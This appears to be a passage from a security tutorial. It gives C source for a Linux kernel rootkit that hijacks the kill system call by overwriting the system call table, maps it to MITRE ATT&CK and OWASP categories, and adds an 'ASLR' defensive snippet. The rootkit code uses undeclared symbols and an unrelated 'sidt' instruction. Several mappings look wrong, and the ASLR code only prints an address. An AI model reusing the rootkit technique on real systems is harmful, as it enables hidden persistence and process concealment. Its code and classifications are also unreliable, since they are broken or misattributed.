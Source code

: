 ### **8. Malware Example: Rootkit**

#### **Rootkit Code Example:**
```c
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/syscalls.h>

unsigned long **sys_call_table;

asm("sidt %0":"=m"(sys_call));

static int __init rootkit_init(void) {
    sys_call_table = (unsigned long **)sys_call_table_addr();
    original_sys_call = (unsigned long *)sys_call_table[__NR_kill];
    sys_call_table[__NR_kill] = (unsigned long *)new_sys_kill;
    return 0;
}

static void __exit rootkit_exit(void) {
    sys_call_table[__NR_kill] = (unsigned long *)original_sys_call;
}

module_init(rootkit_init);
module_exit(rootkit_exit);
```
**Analysis:**
- The rootkit modifies the system call table to hide processes or alter system behavior, gaining administrative control.
- **MITRE ATT&CK Reference:** This malware can be used to achieve **T1543 (Create or Modify System Process)** and **T1564 (Hide Artifacts)**.
- **Exploit-DB Reference:** Similar to real-world rootkit attacks.
- **OWASP Top 10 Reference:** This malware falls under **A8:2021 - Software and Data Integrity Failures**.

### **9. Defensive Measures & Mitigations**

#### **Address Space Layout Randomization (ASLR)**
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char *buffer = (char *)malloc(10 * sizeof(char));
    printf("Buffer address: %p\n", (void *)buffer);
    free(buffer);
    return 0;
}
```
**Analysis:**
- ASLR randomizes memory addresses to make it harder for attackers to predict the location of buffers.
- **MITRE ATT&CK Reference:** This mitigation can defend against techniques such as **T1055 (Process Injection)** and **T1059 (Command and Scripting Interpreter)**.
- **OWASP Top 10 Reference:** This mitigation falls under **A5:2021 - Security Misconfiguration**.
